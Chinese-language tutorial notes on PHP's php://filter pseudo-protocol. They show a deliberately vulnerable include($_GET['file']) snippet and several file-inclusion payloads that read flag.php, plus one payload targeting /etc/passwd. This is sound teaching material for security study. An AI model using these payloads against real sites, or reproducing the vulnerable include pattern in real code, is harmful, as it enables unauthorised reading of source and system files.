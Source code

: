 # 伪协议

---

**相关文章 & Source & Reference**

- [PHP伪协议的妙用](https://mp.weixin.qq.com/s/SqGH_AoYForFvh5W52fXkQ)

---

## filter协议

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

```
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```

文件包含的案例
```php
<?php
$file = $_GET["file"];
include($file);
?>
```

在同目录下有一个flag.php文件
```php
<?php
$flag = "flag{test}";
```

想要读取 flag.php 文件，可以利用 filter 伪协议，传参如下：
```
?file=php://filter/convert.base64-encode/resource=flag.php
```

这样即可读到 flag.php 文件 base64 加密过后的内容
```
PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tMeHh4fSI7DQo/Pg==
```

然而，对于 filter 协议，不只有这一种写法：
```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
# 这一种是指定读链的筛选列表

?file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
# 字符编码类型,将其解码，同样可以得到flag.php原内容

?file=php://filter/read=string.toupper|string.rot13/resource=flag.php

?file=php://filter/string.strip_tags=/etc/passwd
```

---